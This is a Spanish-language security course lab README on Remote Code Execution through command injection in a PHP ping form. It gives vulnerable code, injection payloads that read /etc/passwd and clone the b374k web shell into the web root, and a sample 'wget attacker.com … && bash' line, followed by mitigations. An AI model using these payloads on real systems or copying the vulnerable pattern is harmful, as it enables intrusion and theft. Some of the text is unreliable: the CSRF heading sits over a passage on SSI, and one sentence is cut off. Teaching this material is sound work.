



# PPS-Unidad3Actividad7-RCE
Explotación y Mitigación de Remote Code Execution (RCE).
Tenemos como objetivo:

> - Ver cómo se pueden hacer ataques Remote Code Execution (RCE).
>
> - Analizar el código de la aplicación que permite ataques de Remote Code Execution (RCE).
>
> - Implementar diferentes modificaciones del codigo para aplicar mitigaciones o soluciones.

## ¿Qué es CSRF?
---
Los servidores web generalmente brindan a los desarrolladores la capacidad de agregar pequeñas piezas de código dinámico dentro de páginas HTML estáticas, sin tener que lidiar con lenguajes completos del lado del servidor o del lado del cliente. Esta característica es proporcionada por El lado del servidor incluye(SSI).

Server-Side Includes son directivas que el servidor web analiza antes de servir la página al usuario. Representan una alternativa a escribir programas CGI o incrustar código utilizando lenguajes de scripting del lado del servidor, cuando solo se necesitan realizar tareas muy simples. Las implementaciones comunes de SSI proporcionan directivas (comandos) para incluir archivos externos, para establecer e imprimir variables de entorno CGI del servidor web, o para ejecutar scripts CGI externos o comandos del sistema.

SSI puede conducir a una Ejecución de Comando Remoto (RCE), sin embargo, la mayoría de los servidores web tienen el exec directiva desactivada por defecto.

Esta es una vulnerabilidad muy similar a una vulnerabilidad de inyección de lenguaje de scripting clásico. Una mitigación es que el servidor web debe configurarse para permitir SSI. Por otro lado, las vulnerabilidades de inyección SSI son a menudo más fáciles de explotar, ya que las directivas SSI son fáciles de entender y, al mismo tiempo, bastante potentes, por ejemplo, pueden generar el contenido de los archivos y ejecutar comandos del sistema.

Consecuencias de RCE:
• Acceso a información sensible (usuarios, archivos, configuración).
• Ejecución de comandos maliciosos (descarga y ejecución de malware).
• Escalada de privilegios y control total del sistema.

## ACTIVIDADES A REALIZAR
---
> Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Remote Code Execution](./files/ExplotacionYMitigacionRCE.pdf>
> 
> También y como marco de referencia, tienes [ la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.]<> También y como marco de referencia, tienes [ la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.]<https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/08-Testing_for_SSI_Injection>
>

Vamos realizando operaciones:

## Código vulnerable
---
En esta ocación vamos a ver una página en el que tenemos un input para meter una dirección ip.
El programa realizará un ping sobre la dirección que hayamos introducido.
escribimos  rce.php

~~~
<?php
if (isset($_POST['ip'])) {
        $ip = $_POST['ip'];
        // Ejecutar el ping y capturar la salida
        $output = shell_exec("ping -c 4 " . $ip);
        echo $output;
}
?>
<form method="post">
        <input type="text" name="ip" placeholder="Ejemplo: 8.8.8.8" required>
        <button type="submit">Hacer Ping</button>
</form>
~~~

El código permite que el usuario pueda introducir los símbolos ";" "&" y de esta manera podemos ejecutar otros comandos adicionales en el sistema.

## Explotación de RCE
---
Acceder a la URL y ejecutar un comando básico:
~~~
http://localhost/rce.php
~~~

Si introducimos una dirección ip se nos muestra si el servidor está accesible

Sin embargo podemos anudar consultas con el operador & por ejemplo `8.8.8.8 & id` que nos mostraría el usuario con el que estamos ejecutando las sentencias php:

Si se muestra información del sistema o similar (uid=1000(user) gid=1000(user)), la aplicación es vulnerable.

**Intentar listar archivos del servidor:**

Podemos llegar a listar los archivos del directorio donde se encuentra el archivo rce.php con 8.8.8.8 & ls

Si se muestran archivos del sistema en pantalla, el ataque funciona.

**Probar más comandos:**

~~~
8.8.8.8 & cat /etc/passwd
~~~

Si muestra el contenido de /etc/passwd, el atacante puede extraer credenciales.

**Intentar descargar y ejecutar malware:**

Sólo para nuestro ejemplo dar permisos de escritura a /var/www/html/

~~~
sudo chmod -R 777 /var/www/html/
~~~
Introducimos codigo para concatenar la ip del servidor dns de Google, con descargar el proyecto git b374k: 
~~~
8.8.8.8 & git clone https://github.com/b374k/b374k.git /var/www/html/b374k
~~~

Si lo realiza, estará instalando en el directorio b374k un shell basado en PHP. Luego podremos acceder a él y ejecutar los comandos que queramos.

~~~
http://localhost/b374k/index.php
~~~

El atacante tiene control total del sistema.

### Mitigaciones de RCE
Para las miti
**Eliminar el uso de shell_exec()**
---
Si la ejecución de comandos no es necesaria, deshabilitar la funcionalidad completamente.

Código seguro (rce.php sin posibilidad de ejecución de comandos ya que se elimina totalmente)

~~
<?php
die("Esta funcionalidad ha sido deshabilitada por razones de seguridad.");
?>
~~~
**Beneficios:**

- Bloquea cualquier intento de ejecución de código en el sistema.

- Evita ataques RCE de forma definitiva.

- No necesita más medidas de seguridad, ya que la ejecución de comandos es eliminada.

**Restringir Comandos Permitidos**

Si se necesita permitir algunos comandos específicos, usar una lista blanca (whitelist).

Código seguro (rce.php con lista blanca de comandos permitidos)

~~~
<?php
$allowed_cmds = ["ls", "whoami", "pwd"];
if (!isset($_GET['cmd']) || !in_array($_GET['cmd'], $allowed_cmds)) {
        die("Comando no permitido.");
}
$output = shell_exec(escapeshellcmd($_GET['cmd']));
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
~~~

Permitimos la ejecución de comandos ls, whoami, pwd, el resto dará mensaje de "comando no permitido".

Ante la consulta `http://localhost/rce.php?cmd=ls` si nos permite ejecutar el comando ls

Pero sin embargo no nos permite la consulta `http://localhost/rce.php?cmd=cat /etc/passwd`

_Beneficios:_

- Lista blanca de comandos permite solo los necesarios (ls, whoami, pwd).

- Evita ejecución de comandos peligrosos (rm -rf /, wget, curl, nc).

- Escapa caracteres especiales con escapeshellcmd() para mayor seguridad.

- Evita XSS con htmlspecialchars(), protegiendo la salida de comandos.

**Ejecutar Comandos con Escapes Seguros**
---

Si se necesita ejecutar comandos con argumentos, usar escapeshellarg() para evitar inyección de comandos.

Código seguro (rce.php con escapes para argumentos)

~~~
<?php
if (!isset($_GET['cmd'])) {
        die("Falta el parámetro 'cmd'");
}
$command = escapeshellarg($_GET['cmd']);
$output = shell_exec($command);
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
~~~

Beneficios:

- escapeshellarg() protege argumentos, evitando que se concatenen con ;, &&, |.

- Evita inyección de comandos (wget http://attacker.com/shell.sh && bash shell.sh).

- Mayor flexibilidad, pero más seguro que la ejecución directa de shell_exec().

## ENTREGA

>__Realiza las operaciones indicadas__

>__Crea un repositorio  con nombre PPS-Unidad3Actividad7-Tu-Nombre donde documentes la realización de ellos.__

> No te olvides de documentarlo convenientemente con explicaciones, capturas de pantalla, etc.

>__Sube a la plataforma, tanto el repositorio comprimido como la dirección https a tu repositorio de Github.__

